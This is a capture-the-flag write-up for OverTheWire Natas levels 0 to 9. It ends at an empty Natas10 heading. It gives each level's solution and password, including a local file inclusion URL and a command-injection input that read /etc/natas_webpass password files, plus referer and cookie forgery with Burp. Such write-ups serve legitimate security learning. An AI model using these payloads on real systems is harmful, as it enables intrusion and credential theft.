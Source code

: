 # NATAS WRITE UP
## Natas0
View source  
**user: natas1**  
**pass: gtVrDuiDfck831PqWsLEZy5gyDz1clto**
## Natas1
Ctrl + U  
**user: natas2**  
**pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi**
## Natas2
http://natas2.natas.labs.overthewire.org/files/users.txt  
**user: natas3**  
**pass: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14**
## Natas3
http://natas3.natas.labs.overthewire.org/robots.txt  
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt  
**user: natas4**  
**pass: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**
## Natas4
Dùng Burp intercept request để sửa referer thành http://natas5.natas.labs.overthewire.org/  
**user: natas5**  
**pass: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
## Natas5
Dùng Burp intercept request để sửa cookie thành loggedin=1  
**user: natas6**  
**pass: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1**  
## Natas6
http://natas6.natas.labs.overthewire.org/includes/secret.inc  
Secret: FOEIUWGHFEEUHOFUOIU  
**user: natas7**  
**pass: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**  
## Natas7
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8  
**user: natas8**  
**pass: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**  
## Natas8
```python
#!/bin/python3
  secret = base64.b64decode(bytes.fromhex('3d3d516343746d4d6d6c315669563362').decode('utf-8')[::-1])
```
secret = oubWYf2kBq  
**user: natas9**  
**pass: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl**  
## Natas9
Query: `'' /etc/natas_webpass/natas10;`  
**user: natas10**
**pass: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**
## Natas10
